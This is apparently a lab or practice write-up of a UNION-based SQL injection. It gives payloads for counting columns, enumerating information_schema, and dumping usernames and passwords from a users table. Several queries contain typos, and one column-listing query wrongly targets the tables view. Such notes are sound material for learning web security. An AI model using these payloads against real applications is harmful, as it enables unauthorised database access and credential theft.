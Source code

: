 # Listing contents of database

to list tables in database query

```sql
select * from information_schema.tables
```

to list cloumns in individual tables

```sql
select * from information_schema.tables where table_name = 'Users'
```

end goal : listing the database contents

finding number of columns

```sql
' order by 1--
' order by 2--
```

got to columns

Now for checking string

```sql
' union select a,NULL from information_schema.tables--

' union select a, a from information_schema.tables--

' union select NULL,a from information_schema.tables-- //error 
```

finding table name in database

```sql
' union select table_name,NULL from infromation_schema.tables-- 
```

got all tables name and column

users_balexb

query to retireve data from this column

```sql
' union select column_name, NULL from information_schema.columns where table_name='users_balexb'-- 
```

got the cloumns for password and username

```sql
' union select username_reukez, password_llqvfh from users_balexb-- 
```

 got the password
